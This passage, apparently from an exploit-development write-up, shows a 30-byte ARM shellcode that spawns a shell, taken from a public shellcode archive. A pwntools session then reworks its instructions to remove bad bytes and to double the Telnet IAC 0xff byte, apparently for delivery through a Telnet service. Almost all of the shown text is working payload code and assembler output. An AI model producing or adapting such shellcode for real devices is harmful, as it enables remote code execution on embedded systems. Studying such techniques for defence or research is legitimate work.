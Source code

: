 [Here](http://shell-storm.org/shellcode/files/shellcode-665.php) is the 30-bytes long ARM rev5 shellcode that we can tailor for our purposes:

```
8054:   e28f3001    add r3, pc, #1  ; 0x1
8058:   e12fff13    bx  r3
805c:   4678        mov r0, pc
805e:   300a        adds    r0, #10
8060:   9001        str r0, [sp, #4]
8062:   a901        add r1, sp, #4
8064:   1a92        subs    r2, r2, r2
8066:   270b        movs    r7, #11
8068:   df01        svc 1
806a:   2f2f        cmp r7, #47
806c:   6962        ldr r2, [r4, #20]
806e:   2f6e        cmp r7, #110
8070:   6873        ldr r3, [r6, #4]


```

The above shellcode produces a set of bad bytes. We can fix that by swapping the unwanted instructions as follows:

```
>>> from pwn import *
>>> context.arch='arm'

# original instruction from the shellcode
>>> asm('add r3,pc,#1').hex()
'01308fe2'
# we use r4 to avoid bad byte on the following branch instruction
>>> asm('add r4,pc,#1').hex()
'01408fe2'
# branch instruction producing bad byte: 0x13 
>>> asm('bx r3').hex()
'13ff2fe1'
# we use the r4 register instead and we double patch the Telnet's IAC 0xff byte
>>> asm('bx r4').replace(b'\xff',b'\xff\xff').hex()
'14ffff2fe1'

# switch CPU context
>>> context.arch='thumb'
# decimal 10 will produce the bad byte: 0x0a
>>> asm('adds r0, #10').hex()
'0a30'
# we can securely change it to 0x0b 
>>> asm('adds r0, #11').hex()
'0b30'
# subs instruction producing bad byte: 0x1a
>>> asm('subs r2, r2, r2').hex()
'921a'
# we swap it to the XOR instrution
>>> asm('eors r2, r2, r2').hex()
'5240'


```
